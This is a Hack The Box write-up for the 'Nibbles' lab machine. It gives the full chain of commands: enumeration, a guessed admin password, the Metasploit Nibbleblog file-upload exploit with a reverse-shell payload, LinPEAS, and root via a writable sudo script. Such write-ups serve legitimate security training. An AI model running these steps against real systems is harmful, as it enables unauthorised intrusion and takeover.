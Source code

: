 ```yaml
---
author: Jean Chaput
pubDatetime: 2024-10-29T9:39:00Z
title: HTB Nibbles Box
postSlug: htb-nibbles
featured: false
draft: false
tags:
  - htb
  - box
  - write-up
description:
  Write-up for Nibbles Box on HTB
---
```


We start our exploration by scanning the target:

```bash
nmap -sV -sC -p- "10.10.10.75" -oA nmap_scan
```

We got the following output:

```markdown
Starting Nmap 7.93 ( https://nmap.org ) at 2024-09-21 18:11 CEST
Nmap scan report for 10.10.10.75
Host is up (0.10s latency).
Not shown: 65533 closed tcp ports (reset)
PORT   STATE SERVICE VERSION
22/tcp open  ssh     OpenSSH 7.2p2 Ubuntu 4ubuntu2.2 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey:
|   2048 c4f8ade8f80477decf150d630a187e49 (RSA)
|   256 228fb197bf0f1708fc7e2c8fe9773a48 (ECDSA)
|_  256 e6ac27a3b5a9f1123c34a55d5beb3de9 (ED25519)
80/tcp open  http    Apache httpd 2.4.18 ((Ubuntu))
|_http-server-header: Apache/2.4.18 (Ubuntu)
|_http-title: Site doesn't have a title (text/html).
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel

Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
Nmap done: 1 IP address (1 host up) scanned in 195.67 seconds
```

Since there is an `HTTP` server running on port 80, let's navigate to `http://10.10.10.75/`, there is not a lot to see here so let's inspect the source code by hitting `Ctrl + U`.

At the bottom, we can see the following:
```html
<!-- /nibbleblog/ directory. Nothing interesting here! -->
```

Seems to be an interesting page to navigate, let's see if it exists:

![[HTB/Boxes/Easy/Nibbles - FINISHED/Files/homepage.png]]

We can see in the bottom-right corner `Powered by Nibbleblog` and by searching the web, we can find the [Nibbleblog CMS](https://github.com/dignajar/nibbleblog).

From here, we can look to the different links on the page and nothing seems to be interesting. We can try to enumerate sub directories or look into the CMS to understand how folders and files are structured.

```bash
gobuster dir -w /usr/share/wfuzz/general/common.txt -u http://$TARGET/nibbleblog/
```

This gives the following output :

```markdown
===============================================================
Gobuster v3.6
by OJ Reeves (@TheColonial) & Christian Mehlmauer (@firefart)
===============================================================
[+] Url:                     http://10.10.10.75/nibbleblog/
[+] Method:                  GET
[+] Threads:                 10
[+] Wordlist:                /usr/share/wfuzz/general/common.txt
[+] Negative Status codes:   404
[+] User Agent:              gobuster/3.6
[+] Timeout:                 10s
===============================================================
Starting gobuster in directory enumeration mode
===============================================================
/admin   (Status: 301) [Size: 321] [--> http://10.10.10.75/nibbleblog/admin/]
/content (Status: 301) [Size: 323] [--> http://10.10.10.75/nibbleblog/content/]
Progress: 951 / 952 (99.89%)
===============================================================
Finished
===============================================================
```

By navigating to `/content/`, we find the `/private/` folder and inside we discover the following `user.xml` file :

```xml
<users>
	<user username="admin">
		<id type="integer">0</id>
		<session_fail_count type="integer">0</session_fail_count>
		<session_date type="integer">1514544131</session_date>
	</user>
	<blacklist type="string" ip="10.10.10.1">
		<date type="integer">1512964659</date>
		<fail_count type="integer">1</fail_count>
	</blacklist>
</users>
```

So now we know the admin user login with the username `admin`.

By looking to the CMS files and folders, we can see that there should be an `/admin.php` page which could be the login page for the administration panel.

This page is effectively here and we can see a login form that we can use with our `admin` username that we found earlier. Since we don't have the password we could try to use a dictionary attack with `Hydra`, but it seems that some blacklisting mechanisms are used there to prevent this kind of attack.

Since it is an **easy** box on Hack the Box, let's simply try the name of the box as the password : `nibbles` (not guessing here, just a habit from Hack the Box).

It worked ! While in, let's check what is the running version of Nibbleblog. We can do this by going to the `Settings` page and scrolling down on the page to reveal `Nibbleblog 4.0.3 "Coffee" - Developed by Diego Najar`.

With this information, let's search for any known exploit :

```bash
searchsploit "nibbleblog 4.0.3"
```

This displays the following output :

```markdown
-------------------------------------------------------- ---------------------
 Exploit Title                                          |  Path
-------------------------------------------------------- ---------------------Nibbleblog 4.0.3 - Arbitrary File Upload (Metasploit)   | php/remote/38489.rb
-------------------------------------------------------- ---------------------
```

Let's run Metasploit :

```bash
msfconsole -q
```

In the `msfconsole`, we can run the following commands :

```bash
search nibbleblog
use exploit/multi/http/nibbleblog_file_upload
show options
set PASSWORD "nibbles"
set RHOSTS "10.10.10.75"
set TARGETURI "/nibbleblog"
set USERNAME "admin"
check
run
```

>  I used a Meterpreter payload for this one configured with my IP (VPN) and a listening port for the reverse TCP connection.

When we receive the reverse shell, we can directly try to identify who we are running our commands as:

```bash
getuid
```

This outputs : `Server username: nibbler`

Let's list the content in that user's home directory :

```bash
ls /home/nibbler
```

Here is the command output:

```markdown
Listing: /home/nibbler
======================

Mode              Size  Type  Last modified              Name
----              ----  ----  -------------              ----
100600/rw-------  0     fil   2017-12-29 11:29:56 +0100  .bash_history
040775/rwxrwxr-x  4096  dir   2017-12-11 04:04:04 +0100  .nano
100400/r--------  1855  fil   2017-12-11 04:07:21 +0100  personal.zip
100400/r--------  33    fil   2024-09-21 13:32:33 +0200  user.txt
```

And here we have our user flag. Now let's look for privilege escalation. 

I'll first start by getting the [LinPEAS](https://github.com/peass-ng/PEASS-ng/blob/master/linPEAS) script on my machine (in another terminal):

```bash
wget https://github.com/peass-ng/PEASS-ng/releases/latest/download/linpeas.sh
```

And in Meterpreter :

```bash
upload linpeas.sh /tmp/linpeas.sh
shell
bash /tmp/linpeas.sh
```

Among the results we have, we can see the following output :

```markdown
Matching Defaults entries for nibbler on Nibbles:
    env_reset, mail_badpass, secure_path=/usr/local/sbin\:/usr/local/bin\:/usr/sbin\:/usr/bin\:/sbin\:/bin\:/snap/bin

User nibbler may run the following commands on Nibbles:
    (root) NOPASSWD: /home/nibbler/personal/stuff/monitor.sh
```

This seems to be very interesting. In nibbler's home directory, we don't have the `personal` folder but we have a Zip file `personal.zip`. Let's unpack it :

```bash
unzip personal.zip
```

We can now see the permissions that we have on this file :

```bash
ls -al ~/personal/stuff
```

This gives us the following output :

```markdown
total 12
drwxr-xr-x 2 nibbler nibbler 4096 Dec 10  2017 .
drwxr-xr-x 3 nibbler nibbler 4096 Dec 10  2017 ..
-rwxrwxrwx 1 nibbler nibbler 4015 May  8  2015 monitor.sh
```

This file has the `777` permissions, which means read, write and execute for everyone. We already know that we can execute it as root without a password. Let's simply modify it :

```bash
echo "/bin/bash -i" > ~/personal/stuff/monitor.sh
```

And finally we run it :

```bash
sudo ~/personal/stuff/monitor.sh
```

We are now root on the machine and we can grab the root flag in `/root/root.txt`.